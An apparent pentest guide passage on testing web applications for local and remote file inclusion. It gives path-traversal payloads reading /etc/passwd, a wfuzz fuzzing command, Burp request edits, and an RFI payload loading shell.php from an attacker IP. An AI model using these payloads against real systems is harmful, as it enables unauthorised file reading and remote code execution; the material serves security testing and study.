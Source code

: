 ## Attempt Local File Inclusion (LFI)
   - Try injecting file paths to test for LFI. Common targets include `/etc/passwd`, `/var/log/apache2/access.log`, or `/proc/self/environ`.
   - **Example:**
     ```
     http://<target_domain>?page=../../../../etc/passwd
     ```

   If the content of the file is displayed, the application is vulnerable to LFI.

## Test for Remote File Inclusion (RFI)
   - Inject external URLs to test for RFI. Use your own remote server to host a malicious script and inject the URL into the vulnerable parameter.
   - **Example:**
     ```
     http://<target_domain>?page=http://<attack_ip>/shell.php
     ```

   If the server executes the remote file, the application is vulnerable to RFI.

## Fuzz for File Inclusion with Burp Suite or wfuzz
   - Use tools like Burp Suite to intercept HTTP requests and manipulate the file inclusion parameters.
   - Example:
     ```
     GET /index.php?page=about HTTP/1.1
     Host: <target_domain>
     ```

     Modify the request to test for LFI:
     ```
     GET /index.php?page=../../../../etc/passwd HTTP/1.1
     ```

   - Use `wfuzz` to automate fuzzing for LFI:
     ```
     wfuzz -c -z file,/usr/share/wordlists/wfuzz/Injections/lfi.txt --hc 404 "http://<target_domain>?page=FUZZ"
     ```

# File Inclusion Payloads

Here are some common payloads used to exploit File Inclusion vulnerabilities:

## Basic LFI Payload (Linux)
   - Retrieve the content of `/etc/passwd` file:
     ```
     http://<target_domain>/vulnerable.php?file=/etc/passwd
     ```
